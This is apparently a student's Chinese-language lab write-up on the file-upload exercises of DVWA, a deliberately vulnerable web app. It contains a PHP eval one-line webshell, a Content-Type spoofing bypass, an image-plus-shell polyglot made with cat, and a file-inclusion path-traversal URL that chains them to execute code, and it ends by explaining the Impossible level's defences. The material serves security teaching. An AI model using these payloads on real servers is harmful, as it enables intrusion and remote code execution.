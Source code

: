 # Ex5

文件上传

## Low等级本地上传；（20分）

* 以下为页面源代码

```php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

由源代码分析可知，Low等级没有做任何防护，直接将文件名与上传目录进行拼接，这会导致黑客可以在服务器任意位置中上传文件、上传可执行代码文件实现代码注入、命令注入组合攻击。

此时可以上传经典一句话木马```1.php```

```php
@eval($_REQUEST['code'])
```

![img1](doc/image1.png)

上传以后，通过访问```http://<dvwa_host>/hackable/uploads/1.php?code=phpinfo();```，便可以实现代码注入攻击。

![img2](doc/image2.png)

## Medium等级本地上传；（20分）

* 以下为页面源代码

```php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}
```

由源代码分析可知，相较于Low等级，Medium等级增加了对文件**MIME类型**的校验，限制在**jpeg格式**及**png格式**，以及对文件尺寸的限制。

对上传过程进行抓包分析可知，上传文件的**MIME类型**是由浏览器端所提供的，那么便意味着可以通过修改请求数据来实现文件上传。

![img1](doc/image3.png)

将**Content-Type**修改为所允许上传的```image/jpeg```，然后发送请求，便可以完成上传。

![img2](doc/image1.png)

## High级别本地上传；（30分）

* 以下为页面源代码

```php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}
```

由源代码分析可知，相较于Medium等级，High等级增加了对文件**后缀**的校验，限制在**jpg/jpeg/png后缀**以内，而且文件要求可获取到图像尺寸，那么便需要基于真实的图像文件来构造攻击载荷。

那么使用图片隐写的方式，结合之前的一句话木马，便可以得到攻击文件。

```log
┌──(parallels㉿kali-linux-2021-3)-[~/Downloads]
└─$ cat img.png 1.php > img_1.png
```

由于文件后缀的限制，无法将文件保存为可直接执行的**php后缀**文件，那么便需要通过组合其它漏洞来实现代码执行，比如**文件包含**。

将文件上传，然后根据High等级的文件包含漏洞，构造攻击URL```http://<dvwa_host>/vulnerabilities/fi/?page=file/../../../hackable/uploads/img_1.png&code=phpinfo();```，进行访问，Bingo!!!

![img](doc/image4.png)

## Impossible等级的机制以及修复、防御本地上传的方法。（20分）

* 以下为页面源代码

```php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Can we move the file to the web root from the temp folder?
        if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
        }
        else {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }

        // Delete any temp files
        if( file_exists( $temp_file ) )
            unlink( $temp_file );
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();
```

由源代码分析可知，相较于High等级，Impossible等级增加了**CSRF Token**校验，对上传文件进行重命名，并使用GD库对图像进行重新构建以消除恶意内容，基于以上几点可知，进行攻击是不可能的。
